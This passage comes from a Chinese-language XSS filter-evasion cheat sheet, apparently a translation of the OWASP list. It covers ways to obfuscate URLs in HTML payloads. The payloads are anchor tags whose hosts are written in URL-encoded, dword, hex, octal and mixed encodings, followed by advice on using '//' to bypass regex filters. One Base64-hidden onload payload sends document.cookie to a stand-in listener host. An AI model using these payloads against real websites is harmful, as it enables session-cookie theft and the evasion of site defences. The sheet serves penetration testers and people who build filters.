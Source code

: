 ``` {.html}
<a href="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</a>
```

#### 2.82.3. 双字节编码(未测试)

(注意：还有另一种双字节编码):

``` {.html}
<a href="http://1113982867/">XSS</a>
```

#### 2.82.4. 十六进制编码(有效)

每个数字的允许的范围大概是 240
位字符，就如你在第二位上看到的，并且由于十六进制 是在 0 到 F
之间，所以开头的 0 可以省略：

``` {.html}
<a href="http://0x42.0x0000066.0x7.0x93/">XSS</a>
```

#### 2.82.5. 八进制编码(有效)

又一次允许填充，尽管你必须保证每类在 4 位字符以上-例如 A 类，B 类等等：

``` {.html}
<a href="http://0102.0146.0007.00000223/">XSS</a>
```

#### 2.82.6. Base64 编码(无效)

``` {.html}
<img
    onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))"
/>
```

#### 2.82.7. 混合编码(无效)

混合基本编码并在其中插入一些 TAB
和换行(虽然不知道浏览器为什么允许这样做)。

TAB 和换行只有被引号包含时才有效：

``` {.html}
<a
    href="h
tt p://6 6.000146.0x7.147/"
    >XSS</a
>
```

#### 2.82.8. 协议解析绕过(有效)

(// 替代
http://可以节约很多字节).当输入空间有限时很有用(少两个字符可能解决大问题)
而且可以轻松绕过类似"(ht\|f)tp(s)?://"的正则过滤(感谢 Ozh
提供这部分).你也可以将"//"
换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径 URL：
